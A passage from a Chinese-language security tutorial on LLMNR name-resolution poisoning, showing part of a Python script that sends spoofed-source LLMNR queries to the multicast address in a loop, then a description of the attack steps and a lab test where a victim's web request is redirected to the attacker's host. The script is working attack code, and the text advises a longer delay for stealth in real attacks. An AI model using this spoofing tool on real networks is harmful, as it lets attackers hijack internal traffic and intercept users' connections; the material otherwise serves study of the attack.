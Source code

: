 ```
    s.sendto(ip.get_packet(), (dst_ip, dst_port))

if __name__ == "__main__":
    QueryData = (
        "\xa9\xfb"  # Transaction ID
        "\x00\x00"  # Flags Query(0x0000)? or Response(0x8000) ?
        "\x00\x01"  # Question
        "\x00\x00"  # Answer RRS
        "\x00\x00"  # Authority RRS
        "\x00\x00"  # Additional RRS
        "\x09"      # length of Name
        "Her0in-PC"    # Name
        "\x00"      # NameNull
        "\x00\x01"  # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
        "\x00\x01") # Class

    ip_src = "192.168.169.1"
    ip_dst = "224.0.0.252"

    while True:
        print("UDP Source IP Spoof %s => %s for Her0in-PC" % (ip_src, ip_dst))
        UDPSpoof(ip_src, 18743,ip_dst , 5355, QueryData)
        time.sleep(3)

```

为了不要那么暴力,加个延时，实际上在 LLMNR 应答数据包中有一个 TTL 默认为 30s，所以在实战中为了隐蔽可以将延时加大

具体攻击过程如下：

*   攻击者（IP：111.111.111.111）伪造受害者（IP：222.222.222.222）向 LLMNR 协议的广播地址发送 LLMNR 质询，请求解析名称为：HER0IN-PC（IP：333.333.333.333） 的 IP
*   攻击者（IP：111.111.111.111）加入多播组收到 “受害者” 的请求，对质询进行响应，将自己的IP（可以是任何 IP）单播给受害者

攻击的效果就是，受害者只要使用计算机名称访问**`HER0IN-PC`**这台主机的任何服务，都会被重定向到攻击者指定的 IP 上。

测试环境如下：

*   攻击者主机 IP：192.168.169.5（启动伪造 IP 进行 LLMNR 广播的恶意程序 以及 LLMNR 应答程序）
*   受害者 IP：192.168.169.1 无需任何操作
*   当受害者访问内网某台主机的 WEB 服务时被重定向到攻击者主机的 WEB 服务器

看图说话，图片信息量较大 ;)

![](http://drops.javaweb.org/uploads/images/8deb1e1c95b20546ddc577a1b3a915e7b93841d1.jpg)

图 9 ： 攻击者主机 启动相应的程序，并提供了 WEB 服务

![](http://drops.javaweb.org/uploads/images/d724a1c41b20f2b90e0d9bf3048420a5be59d026.jpg)

图 10 ： 当受害者访问**`win2k3-3a85d681`**这台主机的 WEB 服务时被重定向到攻击者主机的 WEB 服务器

![](http://drops.javaweb.org/uploads/images/9e1573e61edae5b59e94184162946333d0dd4c46.jpg)

图 11 ： 可以明显的看到受害者原本想访问的 WEB 服务器是 Windows Server 2003 却被攻击者“重定向”到了一台 Linux 主机上
